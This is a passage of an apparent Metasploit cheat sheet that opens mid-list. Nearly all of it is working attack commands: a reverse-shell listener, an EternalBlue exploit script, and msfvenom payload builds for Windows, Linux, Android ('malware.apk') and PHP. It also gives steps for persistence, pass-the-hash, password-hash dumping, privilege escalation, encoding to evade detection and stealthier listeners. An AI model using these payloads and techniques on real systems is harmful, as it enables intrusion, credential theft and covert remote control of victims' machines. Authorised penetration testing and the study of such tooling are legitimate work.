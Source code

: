 2. **Listener Setup**:  
   After generating a payload, start a handler in `msfconsole`:  
   ```bash
   use exploit/multi/handler
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST 192.168.1.2
   set LPORT 4444
   run
   ```  

3. **Post-Exploitation Tips**:  
   - **Persistence**: Use `persistence` scripts in Meterpreter (e.g., `run persistence -X -i 60 -p 443 -r <LHOST>`).  
   - **Lateral Movement**: Pass-the-hash with `psexec` module or `meterpreter> pth`.  

4. **Logging & Automation**:  
   - Log all console output: `spool /path/to/log.txt`.  
   - Automate tasks with resource scripts:  
     ```bash
     echo "use exploit/windows/smb/ms17_010_eternalblue" > auto.rc
     echo "set RHOSTS 10.0.0.5" >> auto.rc
     echo "exploit" >> auto.rc
     msfconsole -r auto.rc
     ```  


---

### **Quick Reference for Common Tasks**  

| **Task**               | **Command Sequence**                                                                 |
|------------------------|-------------------------------------------------------------------------------------|
| **Generate Linux Payload** | `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f elf > shell.elf` |
| **Generate Windows Payload** | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe > payload.exe` |
| **Generate Android Payload** | `msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT=5555 R > malware.apk` |
| **Generate Web Payload (PHP)** | `msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP> LPORT=8080 -f raw > shell.php` |
| **Start Listener (Multi-Handler)** | `use exploit/multi/handler`<br>`set PAYLOAD <payload_name>`<br>`set LHOST <IP>`<br>`set LPORT <port>`<br>`run` |
| **Privilege Escalation (Windows)** | `meterpreter> getsystem`<br>`meterpreter> migrate <PID_of_privileged_process>` |
| **Dump Hashes (Windows)** | `meterpreter> hashdump`<br>*or*<br>`meterpreter> run post/windows/gather/smart_hashdump` |
| **Persistence (Meterpreter)** | `meterpreter> run persistence -X -i 60 -p 4444 -r <LHOST>` (*-X = startup, -i = interval*) |

---

### **Additional Tips:**  
1. **Encoding Payloads**: Append to `msfvenom`:  
   ```bash
   msfvenom ... -e x86/shikata_ga_nai -i 3 # Encode 3 times
   ```
2. **Stealthier Listeners**: Use common ports (e.g., 443, 80) and prepend `/etc/hosts` spoofing:  
   ```Shell
	echo "<LHOST> google.com" >> /etc/hosts
```
   